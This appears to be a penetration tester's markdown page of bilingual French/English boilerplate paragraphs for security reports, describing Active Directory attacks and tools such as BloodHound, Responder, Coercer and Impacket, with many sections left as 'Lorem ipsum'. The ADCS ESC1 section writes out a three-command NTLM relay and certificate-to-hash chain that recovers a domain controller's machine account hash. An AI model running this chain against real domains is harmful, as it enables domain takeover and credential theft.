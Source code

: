 ```yaml
---
title: Reporting boilerplates
description: Reporting boilerplates
date: 2022-08-02
---
```


# Reporting boilerplates

## Attacks

### NTLMv1 to LDAPS without signature

**French**

Lorem ipsum

**English**
Lorem ipsum

### ADCS ESC1

**French**

Lorem ipsum

```shell
ntlmrelayx.py -t http://<remote host>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

```shell
python gettgtpkinit.py '<DOMANIN>/<RELAYED_DC_MACHINE_ACCOUNT>' -pfx-base64 $(cat <path to base64 output from ntlmrelayx>) <where to save ccache>
```

```shell
KRB5CCNAME=<path to ccache> python getnthash.py -key '<AS-REP key obtained from the above command>' '<relayed DC>'
```







**English**
Lorem ipsum



## Tools

### BloodHound

**French**
Lorem ipsum

**English**

To confirm this issue, the testers used an Active Directory cartography and analysis tool called `BloodHound` (https://github.com/BloodHoundAD/BloodHound). This tool starts by collecting data from the Active Directoy instance via LDAP queries and imports this data into a database. The database can then be queried to obtain information on potential misconfigurations.

The testers used the following Cipher query to [...]

### Nuclei

**French**
Lorem ipsum

**English**

To confirm this issue, the testers used Nuclei (https://github.com/projectdiscovery/nuclei), a vulnerability scanner developed by Project Discovery. Nuclei operates by employing predefined templates or "nuclei signatures" to systematically send targeted requests to web servers, effectively identifying security weaknesses and misconfigurations in web applications.

### Metasploit Framework

**French**
Lorem ipsum

**English**

To exploit identified vulnerabilities, the testers utilized the Metasploit Framework (https://github.com/rapid7/metasploit-framework), a versatile penetration testing tool. 

### NetExec

**French**

Les testeurs ont utilisé NetExec (https://github.com/Pennyw0rth/NetExec), un outil open source de post-exploitation et de test de pénétration  conçu pour automatiser diverses tâches lors d'évaluations de sécurité.  En particulier, ils ont utilisé le module MODULE_NAME pour identifier  [...]

**English**

The testers used NetExec (https://github.com/Pennyw0rth/NetExec) an open-source post-exploitation and penetration testing tool designed to automate a variety of tasks during security assessments. In particular, they used the MODULE_NAME module to identify [...]

### rdp-sec-check

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé dp-sec-check (https://github.com/CiscoCXSecurity/rdp-sec-check). Un outil qui permet d'énumérer les configurations de sécurités d'un serveur de Bureau à Distance (Terminal Services).

**English**

To confirm this issue, the testers used rdp-sec-check (https://github.com/CiscoCXSecurity/rdp-sec-check) a script to enumerate security settings of an RDP Service (AKA Terminal Services).

### kerbrute

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé kerbrute (https://github.com/ropnop/kerbrute), un outil permettant de pulvériser des mots de passe et enumérer les utilisateurs Active Directory valident à l'aide de Kerberos Pre-Authentication.

**English**

To confirm this issue, the testers used kerbrute  (https://github.com/ropnop/kerbrute), a tool to quickly bruteforce and  enumerate valid Active Directory accounts through Kerberos  Pre-Authentication.

### Responder

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé Responder (https://github.com/lgandx/Responder), un outil qui permet d'empoisonné divers protocoles de résolution de nom désuets.

**English**

To confirm this issue, the testers used Responder (https://github.com/lgandx/Responder), a network protocol poisoner and relay.

### Coercer

**French**
Lorem ipsum

**English**

The testers used Coercer (https://github.com/p0dalirius/Coercer), a tool to automatically coerce a Windows host to authenticate on an arbitrary machine through many methods.

### Impacket

**French**

Afin de confirmer cette vulnérabilité, les testeurs ont utilisé le script secretsdump.py de la librairie Impacket (https://github.com/fortra/impacket/blob/master/examples/secretsdump.py).

Cet outil permet de récupérer le contenu de Local Security Authority (LSA) ainsi que les ruches de registre SAM, SECURITY et SYSTEM.

**English**
Lorem ipsum
